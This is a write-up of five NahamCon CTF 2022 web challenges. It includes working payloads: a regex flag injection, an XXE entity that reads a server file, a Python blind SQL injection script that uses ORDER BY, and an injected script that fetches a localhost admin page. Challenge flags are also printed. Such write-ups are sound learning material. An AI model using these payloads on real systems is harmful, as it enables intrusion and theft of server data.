







# NahamCon CTF 2022 - Web
------------------------

## 1- Personnel


#### about : 
- Type: Web 
- Level: easy 
- Points : 50

<center></center>

now let's see the [app.py](../src/app_personnel.py) , we find this weird line : 
```python
results = re.findall(r"[A-Z][a-z]*?" + name + r"[a-z]*?\n", users, setting)
```

so the idea was to bypass the filter so we can print the flag which is in the end of users variable.  
what took my intention is I searched if there was a way to comment out the last part of the regexp and i found it [here](https://docs.python.org/3/library/re.html#contents-of-module-re) , it states that with **re.X** (integer **64**) you can format or pretty print your regex , which enables comments , the final payload is then : 

`setting=64&name=\n.*#+`

<center></center>


## 2- EXtravagent


#### about : 
- Type: Web 
- Level: easy 
- Points : 50

<center></center>

if we look at the home page : 
<center></center>

it quite revealing what our first check is , it's **XXE** xml external entity, xml allows to import files in from external source , be it a url or a system file , our final payload is : 
```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY payload SYSTEM 'file:///var/www/flag.txt'>]><root>&payload;</root>
```
we are uploading it in  the trial section as expploit.xml , and we view it in the view XML section as seen in the above image, result:
**flag{639b72f2dd0017f454c44c3863c4e195}**

## 3- Jurassic Park

#### about : 
- Type: Web 
- Level: easy 
- Points : 50

<center></center>

It is a normal page without much javascript let alone login, static HTML and CSS , so I looked to some known files like robots.txt, result : 
`User-agent: *
Disallow: /ingen/`
i followed the ingen , it is a directory traversal path that contains flag.txt , easy /ingen/flag.txt : 
**flag{c2145f65df7f5895822eb249e25028fa}**


## 4- FlaskMetal Alchemist

#### about : 
- Type: Web 
- Level: medium 
- Points : 100

<center></center>

if we look ate the source code provided [here](../fma/) , we see it uses SQLAlchemy 1.2.17 , this version has an issue [here](https://github.com/sqlalchemy/sqlalchemy/issues/4481) it allows an sql injection in **oder by** if not rendered, that's our case, the final exploit in python : 

```python
import requests
from string import ascii_lowercase

headers = {
    'Host': 'challenge.nahamcon.com:30052',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
    # 'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    # 'Content-Length': '38',
    'Origin': 'http://challenge.nahamcon.com:31145',
    'Connection': 'close',
    'Referer': 'http://challenge.nahamcon.com:31145/',
    'Upgrade-Insecure-Requests': '1',
    'Sec-GPC': '1',
}

data = 'search=a&order=(Case when (select substr(flag,1,1) from flag)=\'f\' then symbol else atomic_number end) Desc'

response = requests.post('http://challenge.nahamcon.com:30052/', headers=headers, data=data, verify=False)
template = response.text

letters=ascii_lowercase + "_"+"}"
print(letters)
flag='flag{'
for i in range(20,30) : 
    for j in letters :  
        data = f'search=a&order=(Case when (select substr(flag,{i},1) from flag)=\'{j}\' then symbol else atomic_number end) Desc'
        print(data)

        response = requests.post('http://challenge.nahamcon.com:30052/', headers=headers, data=data, verify=False)

        if template==response.text : 
            print(flag + j)
            flag += j
            break 
```


## 5- Hacker Ts

#### about :
- Type: Web 
- Level: hard
- Points : 200

<center></center>

the function of this website is to turn a text into a t-shirt , unfortunitly it renders html , so i tried to get teh admin page locally using javascript , the payload is : 
```js
<h1 id="tag"></h1>
<script>
	var req = new XMLHttpRequest();
	req.open("GET","http://localhost:5000/admin",false);
	req.send();
	document.getElementById('tag').innerHTML = req.responseText;
</script>
```

result : 
<center></center>


